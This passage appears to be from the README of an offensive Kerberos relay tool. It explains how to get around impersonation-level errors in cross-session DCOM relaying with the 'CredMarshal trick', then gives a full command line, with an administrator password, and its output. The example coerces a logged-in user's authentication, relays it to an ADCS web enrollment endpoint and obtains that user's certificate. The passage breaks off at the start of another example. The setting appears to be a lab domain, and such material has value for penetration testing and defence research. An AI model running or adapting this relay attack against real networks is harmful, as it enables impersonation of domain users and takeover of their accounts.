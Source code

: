 ### Cross-relay and the CredMarshal-trick that wasn't dead

If you try to do simple cross-session relaying with this tool, you will most likely get HTTP 500 on ADCS and STATUS_BAD_IMPERSONATION_LEVEL on SMB due to wrong impersonation level on the authentication after ResolveOxid2.

But we can use the CredMarshal-trick from [James Forshaw](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html). The CredMarshal-trick was patched on SMB when [CVE-2025-33073](https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025) was patched, but it still works on [RPC and HTTP](https://x.com/decoder_it/status/1940086249420988572). Then we can the initial connection when the victim connects to do ResoleOxid2. This authentication has the right impersonation level. See eg. [this article](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx) for more information about the CredMarshal-trick (note that the actual attack described in the article has been patched).

Of course, this also works for SYSTEM-authentication, but often this has the right impersonation level, so the "vanilla"-attack is easier as it does not require registering a marshalled DNS-pointer (alternatively doing DNS spoofing), but that depends on clsid. In my limited testing I found some clsids where you had a SYSTEM-authentication where it only worked to relay the first request.

**NB:** Remember to set -spn to RPCSS/[host] when doing this attack, otherwise the RPC-server will not relay the kerberos authentication, as this tool only relays kerberos authentication with the expected SPN.

#### Example (SilverPotato + ADCS ESC8):

DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA here points to my machine 10.10.14.65

```
└─$ python3 remoteKrbRelayx.py 'cicada.vl/Administrator:NewPassword1!@ofwindows1.cicada.vl' -relay-target 'http://dc-jpq225.cicada.vl/certsrv/' -local-ip 10.10.14.65 -coerce-to DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -k -spn RPCSS/DC-JPQ225 -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 1 -adcs -template User -victim rosie
[*] Setting up RPC Server on port 135
[-] CCache file is not found. Skipping...
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Callback added for UUID 99FCFEC4-5260-101B-BBCB-00AA0021347A V:0.0
[*] Got kerberos auth for spn RPCSS/DC-JPQ225
[*] Starting attack against http://dc-jpq225.cicada.vl
[*] HTTP server returned status code 200, treating as a successful login
[-] DCOM SessionError: unknown error code: 0x80070001 Note that DCOM errors also happens during successful relays.
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 91
[*] Writing PKCS#12 certificate to ./rosie.pfx
[*] Certificate successfully written to file
[*] Shutting down RPC Server
```

The "naive" way does not work:

